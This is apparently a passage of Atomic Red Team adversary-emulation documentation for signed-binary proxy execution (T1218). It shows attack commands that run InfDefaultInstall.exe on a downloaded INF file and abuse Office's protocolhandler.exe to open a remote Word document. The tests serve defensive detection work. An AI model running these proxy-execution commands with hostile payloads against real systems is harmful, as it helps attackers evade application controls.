 
#### Attack Commands: Run with `command_prompt`! 


```cmd
InfDefaultInstall.exe #{inf_to_execute}
```




#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_to_execute})
##### Check Prereq Commands:
```powershell
if (Test-Path #{inf_to_execute}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{inf_to_execute}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218/src/Infdefaultinstall.inf" -OutFile "#{inf_to_execute}"
```




<br/>
<br/>

## Atomic Test #5 - ProtocolHandler.exe Downloaded a Suspicious File
Emulates attack via documents through protocol handler in Microsoft Office.  On successful execution you should see Microsoft Word launch a blank file.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| microsoft_wordpath | path to office folder | path | C:&#92;Program Files&#92;Microsoft Office&#92;Office16|
| remote_url | url to document | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218/src/T1218Test.docx|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{microsoft_wordpath}\protocolhandler.exe" "ms-word:nft|u|#{remote_url}"
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed with the correct path and protocolhandler.exe must be provided
##### Check Prereq Commands:
```powershell
if (Test-Path "#{microsoft_wordpath}\protocolhandler.exe") {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
write-host "Install Microsoft Word or provide correct path."
```
